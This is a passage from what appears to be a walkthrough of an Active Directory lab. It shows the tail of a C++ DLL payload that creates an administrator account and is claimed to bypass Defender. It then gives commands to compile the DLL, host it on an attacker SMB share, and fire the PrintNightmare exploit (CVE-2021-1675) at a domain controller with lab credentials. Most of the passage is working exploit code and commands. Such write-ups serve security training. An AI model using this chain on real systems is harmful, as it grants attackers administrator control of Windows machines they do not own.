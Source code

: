 ```c++
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

// RUNDLL32 entry point
#ifdef __cplusplus
extern "C" {
#endif

__declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow)
{
    CreateAdminUserInternal();
}

#ifdef __cplusplus
}
#endif

// Command-line entry point.
int main()
{
    return CreateAdminUserInternal();
}
```

- with this payload we can bypass defender and add our user as administrator
- compile

```shell
x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32
```

- prepare the share

```shell
smbserver.py -smb2support ATTACKERSHARE .
```

- relaunch the exploit

```shell
python3 CVE-2021-1675.py north.sevenkingdoms.local/jon.snow:'iknownothing'@winterfell.north.sevenkingdoms.local '\\192.168.56.1\ATTACKERSHARE\pnightmare2.dll'
```

![printnightmare_newpayload.png](/assets/blog/GOAD/printnightmare_newpayload.png)
